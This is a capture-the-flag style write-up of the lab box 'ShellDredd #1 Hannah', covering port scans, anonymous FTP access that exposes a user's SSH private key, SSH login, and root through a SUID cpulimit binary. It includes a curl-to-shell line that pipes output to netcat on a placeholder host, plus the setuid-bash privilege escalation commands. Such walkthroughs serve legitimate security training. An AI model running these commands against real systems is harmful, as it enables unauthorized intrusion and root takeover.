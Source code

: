 ```yaml
---
title: OnSystem ShellDredd #1 Hannah
author: am-a-circle
date: 2021-04-15 12:00:00 +0800
categories: [OSCP PG Play]
tags: [SUID,easy]
math: false
mermaid: false
---
```



## Overview

"ONSYSTEM: SHELLDREDD #1 HANNAH" is an easy boxes which is great for beginners to learn more about enumerating the poorly configured FTP port to search for sensitive information and escalate to root by exploiting SUID.

|Box Difficulty| Link|
|--|--|
| Easy | [Vulnhub Link](https://www.vulnhub.com/entry/onsystem-shelldredd-1-hannah,545/) |

For this box I will be attempting it on Offensive security **PG Play** .

## Recon

I always like to start with Masscan to find all open port followed by nmap enumeration.
```bash
masscan -p1-65535 192.168.109.130 --rate=1000 
Discovered open port 21/tcp on 192.168.109.130   
Discovered open port 61000/tcp on 192.168.109.130                              
```


```bash
# Nmap 7.91 scan initiated Sun Apr 11 03:44:50 2021 as: nmap -sV -sC -p 21,61000 -oN /opt/OSCP_PlayG/OnSystemShellDredd/nmap_full.txt 192.168.109.130
Nmap scan report for 192.168.109.130
Host is up (0.25s latency).

PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.49.109
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
61000/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 59:2d:21:0c:2f:af:9d:5a:7b:3e:a4:27:aa:37:89:08 (RSA)
|   256 59:26:da:44:3b:97:d2:30:b1:9b:9b:02:74:8b:87:58 (ECDSA)
|_  256 8e:ad:10:4f:e3:3e:65:28:40:cb:5b:bf:1d:24:7f:17 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Apr 11 03:45:01 2021 -- 1 IP address (1 host up) scanned in 11.80 seconds

```

Through this we can see that there is a FTP server on port 21 and a SSH at port 61000.

## FTP - TCP 21

We can see that anonymous login is allowed, let's test it:
```bash
# ftp 192.168.109.130
Connected to 192.168.109.130.
220 (vsFTPd 3.0.3)
Name (192.168.109.130:kali): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```

Next , let's download all the files from the FTP server so we can look through the files :

```bash
 wget -m --no-passive ftp://anonymous:anonymous@192.168.109.130                                                                                                         
--2021-04-13 03:05:02--  ftp://anonymous:*password*@192.168.109.130/                                                                                                       
           => ‘192.168.109.130/.listing’                                                                                                                                   
Connecting to 192.168.109.130:21... connected.                                                                                                                             
Logging in as anonymous ... Logged in!                                                                                                                                    
==> SYST ... done.    ==> PWD ... done.                                                                                                                                   
==> TYPE I ... done.  ==> CWD not needed.                                                                                                                                 
==> PORT ... done.    ==> LIST ... done.       
```

```bash
┌──(root💀kali)-[/opt/OSCP_PlayG/OnSystemShellDredd/192.168.109.130]
└─# ls -laR
.:
total 16
drwxr-xr-x 3 root root 4096 Apr 11 03:52 .
drwxr-xr-x 4 root root 4096 Apr 13 03:05 ..
drwxr-xr-x 2 root root 4096 Apr 11 03:52 .hannah
-rw-r--r-- 1 root root  184 Apr 11 03:52 .listing

./.hannah:
total 16
drwxr-xr-x 2 root root 4096 Apr 11 03:52 .
drwxr-xr-x 3 root root 4096 Apr 11 03:52 ..
-r-------- 1 root root 1823 Aug  6  2020 id_rsa
-rw-r--r-- 1 root root  183 Apr 11 03:52 .listing

```

Great we can see that under the user folder .hannah , there is a id_rsa key. 

```bash
└─# cat id_rsa                     
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
....
HvHD9hkCPIq7Sc/TAAAADXJvb3RAT2ZmU2hlbGwBAgMEBQ==
-----END OPENSSH PRIVATE KEY-----

```

Looking into the content of the file, we can see that this is a OPENSSH PRIVATE KEY, and can use this to ssh into the system as hannah most probably!


## Shell as Hannah

We can see below that if we try to ssh as hannah using the private key,it is ignored as the permission are too open.
```bash
─# ssh -i .hannah/id_rsa hannah@192.168.91.130 -p 61000         
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@         WARNING: UNPROTECTED PRIVATE KEY FILE!          @
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
Permissions 0644 for '.hannah/id_rsa' are too open.
It is required that your private key files are NOT accessible by others.
This private key will be ignored.
Load key ".hannah/id_rsa": bad permissions
hannah@192.168.91.130's password: 
```

Instead we have to ensure that the key is read-writeable by you only before we can ssh as hannah!
```bash
# chmod 600 .hannah/id_rsa 
# ssh -i .hannah/id_rsa hannah@192.168.91.130 -p 61000
Linux ShellDredd 4.19.0-10-amd64 #1 SMP Debian 4.19.132-1 (2020-07-24) x86_64
The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
hannah@ShellDredd:~$ 
```

With that we are now in the shell as hannah!

## Shell as Root

One of the first things i like to do is run `linpeas.sh`
```bash
#Excute from memory and send output back to the host
nc -lvnp 9002 | tee linpeas.out # On Host 
curl HOST-IP:8000/linpeas.sh | sh | nc HOST-IP 9002 #On Victim
```

After running `linpeash.sh` we can see that there is a cpulimit has a SUID permission which we can exploit. This mean we can run cpulimit command as root.
```bash
════════════════════════════════════╣ Interesting Files ╠════════════════════════════════════                                                                             
[+] SUID - Check easy privesc, exploits and write perms                                                                                                                   
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid                                                                                             
strings Not Found                                                                                                                                                         
strace Not Found                                                                                                                                                          
-rwsr-sr-x 1 root root       120K Mar 23  2012 /usr/bin/mawk                                                                                                              
-rwsr-xr-x 1 root root        10K Mar 28  2017 /usr/lib/eject/dmcrypt-get-device                                                                                          
-rwsr-sr-x 1 root root        23K Jun 23  2017 /usr/bin/cpulimit             
```

Thus to gain root privileges , we use cpulimit to copy bash into the temp directory, give it a "chmod +s" so that it maintains root privileges from suid.
```bash
hannah@ShellDredd:~$ cpulimit -l 50 -f cp /bin/bash /tmp/bash
Process 1165 detected
Child process is finished, exiting...
hannah@ShellDredd:~$ cpulimit -l 50 -f chmod +s /tmp/bash
Process 1167 detected
Child process is finished, exiting...
hannah@ShellDredd:~$ /tmp/bash -p
bash-5.0# whoami
root
bash-5.0# id
uid=1000(hannah) gid=1000(hannah) euid=0(root) egid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth),1000(hannah)

```

And we are root!
